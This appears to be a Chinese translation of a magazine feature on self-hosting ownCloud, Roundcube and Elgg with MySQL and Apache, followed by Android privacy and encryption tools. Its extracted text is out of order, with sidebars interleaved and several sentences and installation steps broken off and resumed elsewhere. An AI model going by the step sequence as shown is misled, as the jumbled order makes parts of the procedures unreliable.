该页面将检查 PHP 和服务器配置是否与 OwnCloud 兼容，并点击一个按钮后下载真正的代码并将其安装在同一文件夹中。此后，安装将继续进行，如下所述，就像你手动安装文件一样。向导的问题在于它可能不会安装 OwnCloud 的当前版本。这就是为什么我们推荐另一种安装选项——只需将最新稳定版本的压缩文件（对我们来说是一个 10MB 的 TAR 文件，后续版本接近 30MB）上传到其在线文件夹并在那里解压即可。

此时，除非你计划使用 SQLite，否则请确保你可以使用——或如果尚不存在则创建——一个专门用于 OwnCloud 的 MySQL 或 PostgreSQL 数据库和用户。以下是从头开始为 MySQL 执行此操作的命令，这是为基础网络托管提供的最常见数据库：


```
mysql> CREATE USER 'oc_user'@'localhost' IDENTIFIED BY 'the_mysql_password';
mysql> CREATE DATABASE owncloud_test;
mysql> GRANT ALL PRIVILEGES ON owncloud_test.* TO 'oc_user'@'localhost' IDENTIFIED BY 'the_mysql_password'
```

你可以从系统上可用的任何 MySQL 接口发出这些命令或其等效命令，无论是 Web 工具，如 phpMyAdmin，还是 Linux 的命令行客户端。一旦数据库准备就绪，请将浏览器指向 `myowncloud.example.com`。你会找到一个简单的 Web 表单，它会要求你输入管理员账户的名称和密码、`OwnCloud` 根文件夹的绝对路径（记住，它必须可由 Web 服务器写入）、数据库类型，以及除非你选择了 SQLite，否则其位置、名称、用户和密码。就安装而言，到此为止了！

> OwnCloud 书签管理器不如其他类似应用那么复杂，但已经非常好用了。

## 通用配置

还记得左下角的小齿轮图标吗？如果你以管理员身份登录后点击它，它还会显示一个 Admin 标签。那里就是你可以创建其他用户的账户，并将他们组织成组，每个组都有自己的管理员。组是必要的，如果你想要或需要以最大的灵活性控制用户之间或与互联网其他部分共享内容的程度。除了分组之外，每个用户都可以拥有可用空间的不同配额。即使你是 OwnCloud 的唯一用户，也请为日常活动创建一个不同的用户身份。管理员账户应保留用于管理，至少这样可以使你因错误而搞砸某些东西变得更困难。除了管理用户，


**OwnCloud** 管理面板允许你下载和导出系统核心文件、用户文件或完整的云（用户数据、文件和数据库），用于备份或迁移。虽然这样做只需要一次点击，但它们是手动点击。在 `http://apps.owncloud.com` 上找到的应用程序，或其他地方的应用程序，安装起来很容易——将它们的源文件上传并解压到 *OwnCloud* 的 apps 子文件夹中，然后在管理面板的 apps 部分配置它们。

## 更新和升级

OwnCloud 软件维护明确区分更新和升级。这两种操作都很简单，并且在 *OwnCloud* 网站上都有清晰的说明，所以这里我们只提及你需要提前知道的主要要点。第一个、显而易见的要点是：在进行任何维护之前，务必完整备份。

更新是从一个点版本到下一个点版本的更改，例如从 4.5 版到 4.6 版。升级则是到主版本号的过渡。知道这一点并不是纯粹的正式定义，没有实际后果——升级是使用最新的次要版本作为起点进行的。

换句话说，虽然跳过 *OwnCloud* 的中间版本不是一个安全灾难，但它是一种相当可靠的方式，让你陷入有趣、通常未记录的烦恼。这种问题的最常见原因与任何由“PHP 加数据库”组成的应用程序都相同。升级这类程序几乎总是意味着同时安装新的 PHP 文件，并在后台运行一些自动 SQL 查询，以更新数据库的结构和内容。

错误安装的文件很容易识别并恢复。对数据库结构与编写查询时所期望的结构不完全一致的数据库放任 SQL 查询运行，则是一件肮脏得多的事。它们可能会损坏数据库到足以使从旧版本的备份中完全重新安装成为唯一明智的出路。因此，请善待自己——永远不要跳过版本，并不断将你的 *OwnCloud* 保持在尽可能最新的状态。

另一个你不能忽视的维护问题是，每次更改 *OwnCloud* 软件时，可选或第三方应用会发生什么。从这个角度来看，更新不应该成为问题，但升级需要更多努力。一般来说，你必须始终在升级前从管理面板停用所有第三方应用。此外，你使用的 *OwnCloud* 应用可能与新的主版本不兼容。在这种情况下，你应该推迟升级或暂时不用该应用。

*OwnCloud* 的主要价值在于其可移植性。以正确的方式配置它（尤其是如果你拥有自己的域名），你可以在任何时候，以非常小的努力，在同一台或任何其他 Web 服务器上重新创建你的 *OwnCloud*，而不会中断服务。为了做到这一点，你需要设置至少三件事的自动、定期备份：

- 1. **整个数据文件夹**——也就是包含所有用户文件和其他数据的那个目录。
- 2. **数据库。** 如果你选择了 *SQLite*，此步骤包含在第一项中。否则，你需要设置一个每日 `cron` 作业，将整个数据库转储到一个纯文本文件中，然后与其它文件一起备份。你可以使用 `mysqldump` 生成此类转储，或对于 *PostgreSQL* 使用 `pg_dump`。
- 3. **配置。** 下一步要保护的是 `config` 子文件夹中的 `config.php` 文件，其中包含数据库凭据和其他通用变量。

根据你的 Web 服务器，你可能还需要备份 HTTP 和/或 PHP 配置文件。如果你定期这样做，例如使用每日 `cron` 作业，那么将 *OwnCloud* 迁移到另一台服务器或从崩溃中恢复应该几乎是无痛的。为此，首先确保新站点的 Web 服务器/PHP 配置与旧站点相同或至少兼容。接下来，解压你正在运行的 *OwnCloud* 相同版本的原始源文件（你也必须保留原始归档的副本），并重新创建数据库。

最后，将数据文件夹和 `config.php` 文件放到新 *OwnCloud* 根目录的相应位置。如果外部数据库的用户名或密码必须与原始的不同（某些提供商会强制其自己的命名规则），请在 `config.php` 中写入新值。就这样！

## 关于安全？

*OwnCloud* 的安全性值得单独设立一个章节，原因有两个。一是它至关重要，值得突出显示，甚至在视觉上也如此。我们没有足够的空间来详尽地涵盖这个主题，也无法像网站那样保持最新，但我们确实希望你知道你必须考虑它。

另一个原因只是简要提及这个问题，因为它相当直接。你必须为 *OwnCloud* 做的最重要的安全措施，与任何 LAMP 应用所需的大致相同。它们在网上都有非常好的文档记录，所以我们会提及它们，让你知道要搜索什么。首先，为你的 Web 服务器启用基本身份验证。在 *Apache* 上，这可能意味着在配置文件中添加类似以下条目的内容，以启用随 *OwnCloud* 提供的访问控制文件：

```apache
<Directory /complete/path/to/owncloud/>

    AllowOverride All

</Directory>
```

这只是一个示例。请查阅 *OwnCloud* 网站，了解有关身份验证和针对你的服务器和 Linux 发行版的 HTTPD 指令的详细、最新信息。第二件事要做的是获取一个 SSL 证书，用于加密的 HTTP 连接。最后但同样重要的是，确保你的安装不会让未经授权的用户访问 *OwnCloud* 内部的单个文件，请遵循此论坛上的提示：`http://forum.owncloud.org/viewtopic.php?f=3&t=6659`。

## Webmail

保护你的邮件隐私 – 搭建自己的 Webmail 服务。

ownCloud 可以做很多事情，但有一个重要的云服务它没有涉及，那就是电子邮件。在所有云服务中，引发隐私担忧最多的就是 Webmail，尤其是 Gmail。你的邮件以明文形式传输和存储，而 Google 公开承认它会读取你的邮件以便提供定向广告。对于非机密邮件来说，大多数人可以接受，但如果你不能接受，你可以自行运行 Webmail 服务。更妙的是 – 你甚至不需要更改电子邮件地址或拥有静态互联网地址，就像运行自己的 SMTP 服务器通常所要求的那样。Webmail 程序不必与邮件服务器运行在同一系统上，因此你可以将 Webmail 安装在自己的服务器上，同时继续使用当前的电子邮件地址和服务器。

有几种 Webmail 替代方案，其中最受欢迎的两个是 SquirrelMail 和 Roundcube。两者都用 PHP 编写，运行在标准的 LAMP 堆栈上。我们这里将介绍 Roundcube，但 SquirrelMail 设置起来同样简单，功能也一样强大。完全可以同时运行两者。它们毕竟只是电子邮件客户端，而很多人安装了不止一个电子邮件客户端。

两种 Webmail 服务都使用 IMAP 与邮件服务器通信，这意味着邮件保留在服务器上，让你也可以用桌面或移动邮件客户端读取同一封邮件。IMAP 相对于较旧的 POP3 协议还有另一个优势，除了无需在阅读前下载所有内容之外 – 它将诸如你已读哪些邮件等信息存储在服务器上，使得在邮件客户端之间切换时仍能轻松跟踪进度。

### Installing webmail


安装 Roundcube 很简单。你可以通过软件包管理器进行安装，也可以直接在服务器上下载 tarball 从`www.roundcube.net`进行安装。将 tarball 解压到 Web 服务器的根目录。这会创建一个名为`roundcubemail-0.9.0`的目录（对应当前版本）。将其重命名或创建符号链接为更易用的名称，比如`roundcube`或甚至`webmail`。Roundcube 需要写入其日志和临时目录中的文件，因此请确保这些目录由运行 Web 服务器的用户拥有，通常是`apache`或`www-data`。

> “更妙的是，你甚至不需要更改电子邮件地址”

然后通过在浏览器中访问`http://address-of-server/roundcube/installer`运行安装程序。确保没有任何检查显示 ‘Not OK’。缺少可选模块是可以的，而且你只需要一种数据库可用（Roundcube 支持多种数据库格式）。

它检查的一个重要设置是 PHP 的`date.timezone`选项，需要设置该选项才能使你的邮件具有正确的日期时间戳。如果你使用的是 VPS 而不是本地服务器，则应将其设置为服务器物理位置所在的时区。该设置位于`/etc/php5/apache2/php.ini`中，需要取消注释该行，删除前导`;`然后添加时区。你通常可以在`/etc/timezone`中找到正确的时区规范。更改此设置或任何其他 PHP 设置后，需要重启 Apache：

```
sudo apachectl restart
```

### Setting things up

重新加载安装程序并在继续之前修正任何进一步的错误。下一页设置配置。如果你因为隐私问题而使用自己的 Webmail，你可能希望禁用拼写检查器，因为默认的拼写检查器会将文本发送到 Google 进行检查。你需要告诉它你的数据库信息，除非你使用 SQLite，否则你需要自己设置表。你可以通过以`root`身份运行`mysql`客户端然后发出以下命令来完成此操作：

```
CREATE DATABASE roundcubemail;
GRANT ALL PRIVILEGES ON roundcubemail.* TO 'username'@'localhost' IDENTIFIED BY 'password';
FLUSH PRIVILEGES;
```

根据需要更改用户名和密码，但保留`localhost`，因为数据库服务器与 Web 服务器在同一系统上。或者，你也可以使用`phpMyAdmin`创建数据库和用户。现在你需要添加一个或多个 IMAP 服务器以进行连接。如果你添加多个，你在加载页面时会有菜单可供选择。如果你留空，每次使用 Roundcube 时都必须输入服务器名称。当你点击 ‘Create Config’ 按钮时，你会看到一个带有链接的页面



安装程序会创建两个文件，你必须下载并复制到 Roundcube 的`config`目录中。

## 管理

公共服务的一大优点在于它们开箱即用。除了创建一个账号之外，你无需任何设置，也不必担心备份、存储需求、网络安全、DDoS 攻击或一系列其他问题。如果你真的想认真独立地做这件事，就需要像对待传统计算和数据存储系统那样去考虑这些问题。当然，风险也可以转化为优势。

使用私有云存储所有文件会引入单点故障，但这也意味着你只有一个位置需要备份。将一台云服务器同步到异地位置，比为十几二十台台式机做同样的事情要简单得多。文件版本控制和取消删除功能可以防范 ID-ten-T 用户错误——当有人不小心从桌面删除错误文件夹时，传统方式可没有这种保护。如果你的服务运行在私有网络上，其中一些担忧并不适用；如果你已经有一台面向公众的 Web 服务器，那么这些问题应该早已解决，所以情况并不像乍看起来那么可怕。但不要在第一次尝试时就使用关键数据或服务。

下载两个文件——`main.inc.php`和`db.inc.php`。将它们复制到你的 Roundcube 安装目录下的`config`目录中。然后点击“继续”，你的配置将被测试。修正任何被标记出来的问题，要么返回上一页，要么直接编辑文件，然后重新加载测试页面。你还应该在此处测试 SMTP 和 IMAP 设置。注意测试页面末尾的大红色警告——一旦 Roundcube 设置完成，请务必移除或禁用安装程序，否则任何人都可以看到你的设置和密码。

这主要取决于 Web 服务器和邮件服务器之间的连接速度；将它们运行在同一台计算机上会带来很大的不同，也取决于你保留的垃圾——抱歉，是邮件——的数量。

设置菜单包含用于改变 Roundcube 行为和外观的选项，而`http://roundcube.net`网站有一个 wiki，其中包含大量关于调整 Roundcube 以满足你需求的信息。该网站还提供了许多插件，可以安装这些插件来增强 Roundcube 的功能和外观。插件以压缩包形式提供，通常是 TAR 或 ZIP，应解压到 Roundcube 的插件目录——你会发现默认安装中已经有几个插件了。插件默认是禁用的；你需要将它们出现在插件目录中的名称添加到`config/main.inc.php`中的`$rcmail_config['plugins']`数组中来启用它们。例如，要添加自带的`autologon`插件和第三方`SpamAssassin`插件，设置应为：

```
$rcmail_config['plugins'] = array('autologon', 'sauserpref');
```

## 阅读邮件

当你将 webmail URL 加载到浏览器中时，看到的页面取决于你的设置。如果你只设置了一个邮件服务器，它会直接询问你的用户名和密码；否则，你会看到一个菜单，用于在你设置的不同服务器之间选择；如果你没有添加任何服务器，则会看到一个文本框。

第一次登录时，由于系统会扫描你的邮箱，所以会出现延迟。你的邮箱加载速度



你需要至少一个用于读取电子邮件的 IMAP 服务器，以及一个用于发送邮件的 SMTP 服务器。



Roundcube 使用自己的基于 Web 的安装程序进行安装。第一步会检查是否满足所有系统要求。

## 社交网络

缓解你的隐私顾虑——建立你自己的社交媒体平台。

设置 Webmail 很好，但电子邮件有点太 20 世纪了——至少 Facebook 之流会让我们相信这一点。社交网络引发了隐私担忧，虽然公司可能会使用 Facebook 之类的平台与喜欢它们的消费者互动，但它们不会用它进行内部沟通。事实上，大多数机构对在社交网络上讨论任何公司业务都有严格的政策。然而，这些服务确实为人们提供了一种宝贵的互动方式，无论是公开还是在组织内部。我们需要的是一个我们可以自己运行的社交网络平台，最好是开源的，以缓解隐私担忧。有一些选择，例如 Buddy Press (`http://buddypress.org`)，它最初是 WordPress 的一个模块，后来成长为一个完整的社交媒体平台，但我们将要研究的是 Elgg (`http://elgg.org`)。看看选择这个平台的知名组织和教育机构名单，你就会了解它的受欢迎程度和适用性。



> 一旦 Elgg 设置完成，你可以先为它命名、设置电子邮件地址，并为它指定一个存储数据的位置。

### 一个熟悉的流程

安装过程与许多其他 Web 应用程序类似。下载 ZIP 文件，将其解压到你的 Web 服务器的文档目录中，最好为它创建一个比`elgg-1.8.15`更有用的名称的符号链接，然后设置数据库。Elgg 使用 MySQL，因此适用于其他场合的标准说明也适用于创建数据库和用户。你还需要为 Elgg 创建一个数据目录——该目录不应位于你的 Web 服务器的`DocumentRoot`（即它用来提供页面的区域）中，因为你不希望浏览器直接访问其中的内容。该目录应由运行 Web 服务器的用户（通常是`www-data`或`apache`）拥有并可写。这样就完成了命令行部分，尽管你也可以使用`phpMyAdmin`和支持 SSH 的文件管理器完成其中大部分工作。现在将`http://yourserver/elgg`加载到你的 Web 浏览器中。这将指导你完成设置，确保你拥有所有可能需要的模块，设置数据库凭据，测试访问权限并配置数据目录的位置。如果它在任何时候发现问题，都会尝试给出有用的解决方案提示。点击

### 添加一个 MySQL 数据库


MySQL 是一个数据库服务器；我们这里提到的所有软件包都需要某种数据库来保存设置和数据。虽然 MySQL 是最受欢迎的数据库之一，但也有其他选择。SQLite，顾名思义，是一个轻量得多的选项。它将完整的数据库存储在单个文件中，适用于需求不高的单用户系统。然而，它在用户数量或负载方面的可扩展性并不特别好。由于 MySQL 使用经典的服务器/客户端模型，一台服务器就可以处理多个程序的数据库需求，因此如果你使用这里涉及的一个以上软件包，MySQL 可能是最好的选择。缺点是需要在服务器上为每个软件包设置数据库和用户。当你安装 MySQL 时，它会要求输入密码——这是给 `root` 用户的，不能被各个软件包使用。你可以使用命令行创建一个新数据库和相应的用户。

```
mysql -uroot -p

MySQL client will prompt for a password, then you create the database and user with:

CREATE DATABASE dbname;
GRANT ALL PRIVILEGES ON dbname.* TO 'username'@localhost IDENTIFIED BY 'password';
FLUSH PRIVILEGES;
```

第一行创建数据库，第二行创建一个带密码的用户，并让该用户完全访问这一个数据库。`flush` 命令告诉 MySQL 立即实施这些更改。当您完成操作后，`\q` 将退出客户端。与其在命令行里瞎折腾，不如使用 phpMyAdmin，这是一个基于 Web 的 MySQL 管理工具。讽刺的是，创建 phpMyAdmin 用户时你又得使用命令行，但所有步骤在 Web 界面中都有详细说明。



> phpMyAdmin 让管理 MySQL 数据库变得像指向、点击和稍微输入一点文字一样简单。

## OpenStack

虽然我们在这里主要集中在 ownCloud，但也有替代方案；其中之一就是 OpenStack（参见 Dockers，第 14 页）。不过 OpenStack 更面向大规模使用。OwnCloud 可用于企业部署，并且有商业变体可用，但它也非常适合个人和小组织使用。另一方面，OpenStack 更面向希望商业化提供云服务的用户。这当然并不排除 OpenStack，如果你的需求超过个人云服务，你应该查看 `www.openstack.org` 看看是否更符合你的需求。



> OpenStack 是另一款开源云实现，目标直指企业。



> 甚至还有主题可以让 Elgg 看起来非常像某个知名社交网络网站。

Apache 最容易通过你的包管理器安装（你已经处理好 LAMP 中的 L 了，对吧？）；Python 和 Perl 通常默认已安装；因此剩下的 PHP 和 MySQL，也都通过包管理器安装。

## And there’s more

我们在这里查看了三个主要程序，涵盖云存储、电子邮件和社交网络，尽管它们都提供额外功能，例如相册、日历、联系人和书签管理。我们已经提到过，每种都有替代方案，但还有很多其他类型的云程序。例如，Gallery（`http://gallery.menalto.com`）是一个专门的相册，提供远超我们在此查看的程序插件的功能。它是一个典型的使用 PHP 的 Web 应用，因此安装和配置流程与其它程序大同小异，并且它拥有全面的 Web 管理界面，可用于创建公共和私有相册，以及许多可用的插件来进一步增强 Gallery。

> 选择 Elgg 的组织能让你了解其受欢迎程度

还有一个使用 Jabber 的开源即时通讯服务（Jabber 被 Google Talk 等使用）。Asterisk 可用于设置自己的 VoIP 网关，这对于拥有多个办公室的组织尤其有用。

有一个重要的领域，开源替代方案目前仍无法与商业产品相媲美，那就是办公生产力软件。虽然 ownCloud 的 WebDAV 可访问性确实允许任何拥有正确登录信息的人在任何地方编辑，但它仍然依赖客户端办公软件。有一个名为 OX documents 的开发项目，其演示位于 `https://www.ox.io/ox_text`。有趣的是，它支持 ODF 以及 Word 格式文件，是迈向开源在线办公套件的第一步。首个版本预计在近期发布，当它加入电子表格后，我们就能在自己的云中做几乎所有在专有云中能做的事，除了失去隐私。

修复问题后刷新以再次运行检查。最后一步是创建管理员账户。当你使用管理员账户登录时，你可以极大地改变网站的外观，以及启用各种插件和其他选项。

## Making Elgg your own

Elgg 文档齐全，但这些文档隐藏得很深，Elgg 网站首页上没有链接。安装前，请访问 `http://docs.elgg.org`。Elgg 安装后，管理页面的底部有手册和常见问题解答链接。

控制插件的方法到现在应该已经很熟悉了。已安装的插件可通过管理页面上的链接访问。新的插件以 ZIP 文件形式下载，解压到 `mod` 目录后，它们就会出现在上述列表中。主题也是插件，以相同方式安装和配置。主题和插件存储库的链接位于管理手册的首页。

请记住，由于主题被视为插件，因此一次选择多个主题是可能的，结果有时很奇怪。插件页面的一项有用功能是，你可以将其上下移动在按优先级排序的列表中，改变它们的加载顺序。

## What is LAMP?

Web 服务运行在所谓的 LAMP 系统上，其中前三个字母代表 Linux、Apache 和 MySQL，而 P 可以是 PHP、Perl 或 Python，取决于你的偏好。Apache 是 Linux 的事实标准 Web 服务器，尽管也有替代方案，如 Lighttpd 和 Cherokee，它们通常更轻量且可与这些服务配合使用。然而 Apache 最受欢迎，一切都已设置为与其配合使用，而使用不同的 Web 服务器可能需要更多工作，其细节通常可以在项目网站上找到。安装


# 安全的 Android

你的智能手机就是你的电脑。我们来调查如何保护它免受窥探的眼睛...

你知道，如果有人真的感兴趣，他们现在就能精确定位你的确切位置。他们甚至可能拍下你正在阅读杂志的照片并录下你刚刚发出的惊叹声。在你回过神来之前，他们就会读完你所有的消息，窃取你的联系人，并看到的不仅是你的信用评分，还有你的《愤怒的小鸟》水平。这不是虚构。你口袋里有一位窥探者的最佳朋友。你把它带到任何地方：从办公室到卧室，从餐厅到洗手间。它记录你几乎所有的行为，并且可以在几分钟内被用来对付你。信不信由你，现代智能手机是普通公民最糟糕的隐私噩梦。

想想你手机里有什么：来自联系人的电子邮件地址和电话号码、日历约会、照片，甚至可能还有个人财务信息。除此之外，智能手机可以持续追踪你的位置，以建立你行踪的详细档案。这些设备有多种方式可以发送关于用户的数据和信息，这使得它们不仅对那些想保持匿名的人来说特别麻烦，对普通人也一样。事实上，即使你从未用智能手机打过真正的电话，仅使用该设备本身就会广播信息。

> “97% 的测试应用不当访问了私人信息。”

在惠普最近进行的一项研究中，该公司发现 97% 的测试应用不当访问了设备内的私人信息来源，另外 86% 缺乏保护自身免受常见漏洞攻击的手段。好消息是，这些智能手机允许你通过一两下点击更改许多隐私相关设置。让我们来看看你通过智能手机泄露个人信息的各种方式——以及如何最大程度地减少此类广播。我们还将介绍一些工具，帮助你掌控自己的隐私，并在不损害实际信息交换的情况下进行通信。

## 你正被监视

防止应用和服务跟踪你。

许多过去仅在电脑上执行的任务现在已扩展到手机。它们可以充当媒体播放器、录音机、游戏设备、GPS 导航设备等。为了享受所有这些便利，你需要应用。不幸的是，应用是你私人数据与世界之间最薄弱的环节。许多应用会访问你的个人数据以“增强体验”。但你必须相信应用只会以理想的方式使用这些数据。不幸的是，并非每个应用都清楚说明它们如何使用你的数据，而且你无法知道自己是否安全。

然后还有免费的网络服务。像 Google、Twitter、Facebook 等网络公司为你提供免费服务，换取关于你的信息。这些信息随后被用于定向广告。有些人认为这是公平交易，但隐私倡导者对此越来越担忧。

你 Android 智能手机的一个关键组件是权限系统。当你安装应用时，它会通知你它希望获得的访问权限。你可以随后安装该应用，也可以不安装。不幸的是，该系统将大量责任放在用户身上，要求用户知道这些访问请求是否合适。据研究报告称（来源：`http://bit.ly/1bRbsV`）许多应用请求了过度的权限。


有多种方式可以可视化应用权限。BitDefender 的免费 `Clueless` 应用可以帮助你识别应用正在做什么，以及它应该做什么。安装后，`Clueless` 会扫描你的应用并将其分类为高风险、中风险和低风险。你可以浏览每个列表并点击应用以了解它可以访问的功能。你应该卸载任何高风险应用，因为它们可能会窃取你的密码或读取电子邮件。

然后是 `Malwarebytes` 的 `Anti-Malware` 移动应用，它还包括一个隐私管理器。它扫描应用并根据它们可以访问的手机功能将其分为类别，例如访问日历和访问存储。当你希望查看所有可以读取个人信息的应用，例如你的联系人列表和你的网络历史记录时，该应用会派上用场。

> “分享图片会泄露大量信息，因为附带了 EXIF 数据…”

就是一旦你禁用了某个特定功能，例如访问联系人，`XPrivacy` 将屏蔽真实数据，而改为向任何请求它们的应用程序提供一份虚假联系人列表。

除了防止应用泄露信息外，你还应尽量减少发布个人数据的量，即使是分享看似无害的图片。约翰·麦卡菲在逃避当局时，正是因为一张照片而在危地马拉被揪出。

从智能手机分享的图片会因附带的 EXIF 数据而泄露你大量信息，因此如果你用带 GPS 的相机或智能手机拍摄图片，它可以透露你的位置、拍摄时间以及设备的唯一 ID。

要在分享图片前删除 EXIF 信息，你可以使用 `Instant EXIF Remover` 应用。该应用没有界面。安装后它会在“分享”操作中作为一个选项出现。选中后，该应用会拦截你想要分享的任何图片并删除所有 EXIF 数据，然后再将其传递给电子邮件客户端或任何其他分享应用。此外，在将文件上传到 `Dropbox` 或 `Google Drive` 等云分享服务之前，最好对其进行加密。你可以在 Linux 机器上使用 `EncFS` 轻松完成此操作。

### 控制权限

一旦你发现了侵犯隐私的应用，你可以将其删除。Google 最近在 Android 4.3 中泄露了一个隐私功能，用户可以通过 `Aps Ops Launcher` 工具解锁该功能。有了此功能，你可以有选择地关闭隐私相关权限。例如，你可以安装 `Shazam` 音乐识别应用，但关闭其追踪位置的能力。然而，Google 在下一个更新中移除了该功能，这让 EFF 十分不满。当被问及此事时，Google 表示该功能是实验性的，并且是意外发布的。

如果你拥有一台已 root 的 Android 设备，你仍然可以作为 `Xposed` 框架的模块获得该功能。已 root 设备用户还可以使用 `Xposed` 的 `XPrivacy` 模块。有了 `XPrivacy`，你可以控制所有已安装应用的特定权限。最好的部分



`EncFS` 可在 Fedora 和 Ubuntu 等流行发行版的仓库中使用。该工具要求你创建两个目录——一个存放未加密内容，另一个存放加密版本。该工具的工作方式是，你与未加密文件夹中的文件进行交互，它们会在加密文件夹中实时加密。要将 `EncFS` 与 `Dropbox` 等云分享服务一起使用，只需确保将加密文件夹保留在 `Dropbox` 文件夹内即可。这将自动将加密文件夹的任何更改同步到 `Dropbox`！安装 `EncFS` 后，使用 `EncFS ~/Dropbox/encrypted ~/Private` 创建两个文件夹。该工具会询问你问题并创建文件夹。`Private` 目录中的任何文件现在都将被同步。

### 三度分离

你不需要与恐怖嫌疑人交谈，NSA 就会对你的个人通信感兴趣。该机构被允许从其目标“跳三步”。因此，他们可以监控与与你交谈的人交谈的人的通信。这种三度分离使 NSA 几乎可以监控每个人。

掌握 `XPrivacy` 的学习曲线将在很大程度上保护你的隐私。


## 安全通信

在隐身模式下使用你的手机。

保护手机免受任何形式的监视的关键是端到端加密。越来越多的应用程序和服务允许你在数据发送出去之前对其进行加密，然后在接收方设备上解密。加密并不能阻止数据的缓存，但通过使其对没有正确解密密钥的任何人无法理解，从而保护数据免受任何形式的窥探。

通过混淆你的网页浏览活动开始你的锁定工作。就像任何桌面网页浏览器一样，你可以向你的 Android 浏览器安装各种插件。

一些流行的隐私增强插件是代理插件，你可以用它来自定义浏览器上的用户代理并隐藏你正在使用移动设备的事实。

然后是自毁 cookie 插件，它会在你关闭网站时自动删除所有 cookie。想要更全面的控制，你可以使用 `CleanQuit` 插件，它会删除有关上一次会话的所有信息，包括浏览和下载历史以及网站偏好设置。

如果你想要匿名，你应该切换到 `Orweb` 浏览器（`http://bit.ly/1eiYkJ`），它预先配置好帮助你匿名浏览网页。它还加载了伪装设备的插件，让你控制 cookie，防止加载 Flash 内容，并且不保留浏览历史。它需要 `Orbot` 插件，而 `Orbot` 是 Android 版的 `Tor`。 （见第34页了解有关 Tor 项目的更多详细信息）。首次启动时，`Orbot` 会运行一个快速设置向导。如果你有一部已 root 的手机，你可以打开透明代理，这允许所有网络应用程序自动通过 Tor 网络运行。

要在移动设备上签名和加密电子邮件消息，你需要 `Android Privacy Guard`（`APG`）应用，它是 `OpenPGP` 的开源实现。你还需要 `K-9` 邮件应用，它与 `APG` 无缝集成。

要使用这些应用，首先启动 `K-9` 并将其配置为连接到你的邮件服务器。然后启动 `APG` 并点击菜单按钮，这会弹出管理私钥和公钥的选项。你可以从桌面导出这些密钥并导入到 `APG` 中。一旦密钥导入，`K-9` 在撰写新邮件时就会显示签名和加密消息的选项。反之，当你收到新的加密邮件时，它也会让你解密邮件。

同样，如果你想加密即时消息，你需要开源的 `ChatSecure` 应用。该应用使用 `OTR` 协议通过 `XMPP` 账户实现安全聊天会话。使用该应用，你可以与朋友通过包括 `Google Talk` 和 `Facebook` 在内的流行网络进行安全聊天，任何支持 `OTR` 的客户端都可以，包括 `Pidgin`、`Adium` 和 `Jitsi`。

## 老式用法

另一种著名的基于文本的通信形式是 SMS。尽管由于移动互联网价格不断下降而稳步下降，但许多人仍然使用短信作为他们的主要通信方式。

你可以用开源的 `TextSecure` 应用加密 SMS 消息，该应用可以加密存储在手机本地的 SMS。然而，要通过空中发送加密消息，接收方也必须拥有 `TextSecure`，否则他们会收到未加密的消息。首次运行该应用时，它会提供创建所有本地消息加密版本的选项。虽然它不会触及现有的未加密 SMS，但创建加密版本后最好将其删除。

在你发送消息之前，你必须通过交换密钥与接收方设备建立安全连接。`TextSecure` 会向接收方发送一条消息，其 `TextSecure` 应用会自动回复一条消息以建立安全连接。从那时起，你发送和接收加密消息。令人惊讶的是，我们中的许多人仍然使用智能手机进行实际通话，而有一些应用程序和服务可以建立安全通道以挫败任何窃听你对话的企图。

> “令人惊讶的是，我们中的许多人仍然使用智能手机进行实际通话。”

你可以使用免费的 `RedPhone` 应用，通过互联网进行加密通话。

还有 `SilentPhone`，它由 Phil Zimmerman 开发，他为我们提供了用于保护电子邮件的 `OpenPGP` 和用于保护 VoIP 通话的 `ZRTP` 协议。`SilentPhone` 应用可在多个移动平台上运行，但需要 10 美元（约 6 英镑）的订阅费。

这两个解决方案都按广告所述工作并创建加密通话。然而，它们的重大局限性是要求电话另一端的人使用相同的应用。`Ostel` 项目正在努力解决这个问题。他们创建了一个名为开源电话网络（`OSTN`）的标准，该标准使用免费和开源协议创建端到端加密的语音通信通道。

这最好的地方在于，你可以与任何使用支持 `OSTN` 标准的应用程序的用户连接。有适用于 Android 的 `CSipSimple` 应用、适用于 iPhone 用户的 `Acrobits`、适用于 BlackBerry 用户的 `PrivateGSM` 以及适用于 Linux、Windows 和 Mac 用户的跨平台 `Jitsi` 桌面应用。



你可以使用 `Jitsi` 应用进行加密视频通话。

## 选择卷位置

- Local
- Dropbox
- External SD
- Google Drive

`EncDroid` Android 应用让你创建 `EncFS` 加密文件夹并同步它们。

## 安全你的设备

加固端口和舱口。

除了限制数据流向第三方应用并加密所有形式的通信外，你还需要防范物理入侵。保护设备可以防止最常见的担忧——被盗和未经授权的访问。


